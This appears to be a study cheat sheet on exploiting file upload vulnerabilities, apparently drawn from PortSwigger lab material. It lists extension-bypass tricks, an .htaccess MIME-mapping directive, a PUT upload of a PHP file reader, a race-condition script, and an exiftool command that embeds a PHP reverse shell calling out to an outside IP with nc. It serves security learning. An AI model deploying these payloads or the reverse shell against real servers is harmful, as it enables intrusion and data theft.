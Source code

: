 
What is File Upload vulnerabilities?
File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size.

How do file upload vulnerabilities arise?
Given the fairly obvious dangers, it's rare for websites in the wild to have no restrictions whatsoever on which files users are allowed to upload. More commonly, developers implement what they believe to be robust validation that is either inherently flawed or can be easily bypassed.

Exploiting unrestricted file uploads to deploy a web shell
* One way that websites may attempt to validate file uploads is to check that this input-specific `Content-Type` header matches an expected MIME type.
* Web servers often use the `filename` field in `multipart/form-data` requests to determine the name and location where the file should be saved, use Directory Traversal to affect where the file will be saved.
* Blacklists can sometimes be bypassed by using lesser known, alternative file extensions that may still be executable, such as `.php5`, `.shtml`, and so on.

Obfuscating file extensions
* You may occasionally find servers that fail to stop you from uploading your own malicious configuration file. In this case, even if the file extension you need is blacklisted, you may be able to trick the server into mapping an arbitrary, custom file extension to an executable MIME type.
* Provide multiple extensions. Depending on the algorithm used to parse the filename, the following file may be interpreted as either a PHP file or JPG image: `exploit.php.jpg`
-  Add trailing characters. Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`
-  Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: `exploit%2Ephp`
-  Add semicolons or URL-encoded null byte characters before the file extension. If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
-  Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.
- Thir is a defenses involve stripping or replacing dangerous extensions to prevent the file from being executed. If this transformation isn't applied recursively, you can position the prohibited string in such a way that removing it still leaves behind a valid file extension. For example, consider what happens if you strip `.php` from the following filename:`exploit.p.phphp`

Flawed validation of the file's contents
Using special tools, such as ExifTool, it can be trivial to create a polyglot file containing malicious code within its metadata.
Example: exiftool -DocumentName="<?php system(‘nc 192.168.31.41 4444 -e /bin/bash’); __halt_compiler(); ?>" [filename]

Exploiting file upload vulnerabilities without remote code execution
In the examples we've looked at so far, we've been able to upload server-side scripts for remote code execution. This is the most serious consequence of an insecure file upload function, but these vulnerabilities can still be exploited in other ways.

Uploading malicious client-side scripts
Although you might not be able to execute scripts on the server, you may still be able to upload scripts for client-side attacks. For example, if you can upload HTML files or SVG images, you can potentially use `<script>` tags to create [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) payloads.

Exploiting vulnerabilities in the parsing of uploaded files
If the uploaded file seems to be both stored and served securely, the last resort is to try exploiting vulnerabilities specific to the parsing or processing of different file formats. For example, you know that the server parses XML-based files, such as Microsoft Office `.doc` or `.xls` files, this may be a potential vector for [XXE injection](https://portswigger.net/web-security/xxe) attacks.

Uploading files using PUT
It's worth noting that some web servers may be configured to support `PUT` requests. If appropriate defenses aren't in place, this can provide an alternative means of uploading malicious files, even when an upload function isn't available via the web interface.

`PUT /images/exploit.php HTTP/1.1 Host: vulnerable-website.com Content-Type: application/x-httpd-php Content-Length: 49 <?php echo file_get_contents('/path/to/file'); ?>`

Upload a config file to add an extentsion link
In Burp Repeater, go to the tab for the `POST /my-account/avatar` request and find the part of the body that relates to your PHP file. Make the following changes:

-   Change the value of the `filename` parameter to .htaccess.
-   Change the value of the `Content-Type` header to text/plain.
-   Replace the contents of the file (your PHP payload) with the following Apache directive: 

AddType application/x-httpd-php .l33t
    
This maps an arbitrary extension (.l33t) to the executable MIME type application/x-httpd-php. As the server uses the `mod_php` module, it knows how to handle this already.

#### Tip
You can try sending `OPTIONS` requests to different endpoints to test for any that advertise support for the `PUT` method.

Python Script for Race Condition
`def queueRequests(target, wordlists): 
	engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,) 
	request1 = '''<YOUR-POST-REQUEST>''' 
	request2 = '''<YOUR-GET-REQUEST>''' 
	# the 'gate' argument blocks the final byte of each request until openGate is invoked engine.queue(request1, gate='race1') 
	for x in range(5):
		engine.queue(request2, gate='race1') 
		# wait until every 'race1' tagged request is ready 
		# then send the final byte of each request 
		# (this method is non-blocking, just like queue) 
	engine.openGate('race1') 
	engine.complete(timeout=60) 

def handleResponse(req, interesting): 
	table.add(req)`

For getting file info: <?php echo file_get_contents('/home/carlos/secret'); ?>


